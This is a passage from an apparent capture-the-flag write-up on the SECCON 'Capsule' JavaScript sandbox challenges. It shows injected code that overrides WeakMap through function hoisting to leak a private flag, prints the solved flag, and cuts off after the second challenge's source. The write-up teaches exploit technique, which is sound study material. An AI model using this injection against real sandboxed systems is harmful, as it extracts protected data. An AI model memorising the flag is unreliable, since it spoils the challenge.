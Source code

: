 ` Flag(fs.readFileSync('flag.txt').toString())` gets the flag and sets the value of `_flag` which is instance of `WeakMap` to flag. 

Now, Let's make our own `WeakMap`:

```typescript
function WeakMap(...flag) {
  return {
    set: (...flag)=>{
      console.log(flag)
    },
    has: () => {return true;}
  }
}
```

`set` will log the flag, and `has` will ignore `if` statement because its return value is `true`.

`...(spread operator)` can expand in places where 0+ arguments are expected, and it becomes one-dimensonal array. 

Usually, I've used `Function Expressions` more than `Function Declarations` and I tried to overwrite `WeakMap` by the former one. However, nothing is logged !! 😥 Why?

> 🚀 [https://joshua1988.github.io/web-development/javascript/function-expressions-vs-declarations/](https://joshua1988.github.io/web-development/javascript/function-expressions-vs-declarations/)

When we used `Function Declarations` , By the **Hoisting**, our function declaration is pulled up to the top of code. So, if we want to overwrite `WeakMap` before it is used, We should use `Function Declarations`.

Now our injecting code is like following :

![image](https://user-images.githubusercontent.com/51329156/95664120-cf345e80-0b7f-11eb-94ed-a09db7daa249.png)

🏁 **FLAG** : `SECCON{Player_WorldOfFantasy_StereoWorXxX_CapsLock_WaveRunner}`

## 💊 Capsule

Difference between this and beginner one is that in **runner.ts**, the former runs `node index.js` but the latter `ts-node index.ts`.

So, overwriting `WeakMap` is not worked here.

The others are same, so let's look at the **index.js** :

``` javascript
const fs = require('fs');
const {enableSeccompFilter} = require('./lib.js');

class Flag {
  #flag;
  constructor(flag) {
    this.#flag = flag;
  }
}

const flag = new Flag(fs.readFileSync('flag.txt').toString());
fs.unlinkSync('flag.txt');

enableSeccompFilter();
```
